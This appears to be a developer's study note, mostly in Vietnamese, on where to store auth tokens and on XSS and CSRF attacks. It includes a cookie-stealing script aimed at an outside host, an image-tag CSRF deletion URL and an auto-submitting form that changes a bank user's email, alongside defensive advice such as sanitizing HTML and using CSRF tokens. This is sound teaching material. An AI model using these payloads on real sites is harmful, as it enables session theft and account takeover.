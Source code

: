 ### How it work

1. Auth: cookies or localStorage

- Local Storage --> XSS attack
- Cookies --> CSRF attack

---

Khi login, server trả về token, mình sẽ lưu token ở đâu ? local storage or cookies

- Với cac trang liên quan tới tiền bạc thì nên lưu token hoặc các thông tin ở cookies -> vì nó an toàn hơn local storage

  > XSS Attack: hacker bằng 1 cách nào đó họ embed 1 đoạn malicious code into our website, and user not aware about this and user accidentally execute this code -> _can using **sanitize html** to clean this_

  ```html
  <script>
    src = "https://mysite.in?+document.cookie;";
  </script>
  ```

  > CSRF Attack: Người dùng vô tình click vào 1 link độc hại (có thể là chuyển tiền) -> với trường hợp này có thể dùng thêm xác thực 2 bước hoặc là phải nhập mã OTP để có thể chuyển tiền

---

**All the CSRF attacks almost related about `cookie`. if your site do not using cookie, ignore this vulnerability**

### Example

1. Delete Users Bằng METHOD **GET**

Giả sử trong hệ thống các bạn có một action xử lý xóa người dùng với url như sau  
 `GET: https://domain.com/delete.php?id=12 HTTP/1.1`  
 Như vậy giả sử một người nào đó biết được URL này thì họ sẽ hack được, và họ sẽ lợi dụng chính admin của hệ thống. Họ sẽ gửi một email với nội dung là một hoặc nhiều thẻ hình ảnh (IMG) với SRC là url đó và mỗi hình có 1 id khác nhau, như vậy nếu admin đọc cái email đó thì trường hợp admin đang login vào hệ thống thì admin đã vô tình xóa đi những user như trong SRC của các hình trên. Đây là một ví dụ nho nhỏ điển hình thôi chứ trong thực tế ai lại đi làm chương trình xóa người dùng mà lại để cái ID to đùng trên kia :D, ấy mà đôi khi những bạn non tay nghề lại mặc phải đấy.

2. Attack CRSF without using `csrf token`

- Khi access bank account, user giả định browse 1 vài website khác, và 1 trong số đó có 1 website độc hại, và chứa đoạn javascript dưới đây

```html
<form action="https://your-application.com/user/email" method="POST">
  <input type="”email”" value="”malicious-email@example.com”" />
</form>

<script>
  document.forms[0].submit();
</script>
```

Ngay khi user vào đang website, browser sẽ âm thầm submit 1 request tới trang bank, format này thì y chang như là payload của request trong ngân hàng, vì hacker đã nghiên cứu từ trước. khi sending request, thì nó sẽ include authentication cookies, do đó ngân hàng sẽ coi đây là 1 request đã authen và ligit

=> To prevent this vulnerability, we need to inspect every incoming POST, PUT, PATCH, or DELETE request for a secret session value that the malicious application is unable to access.
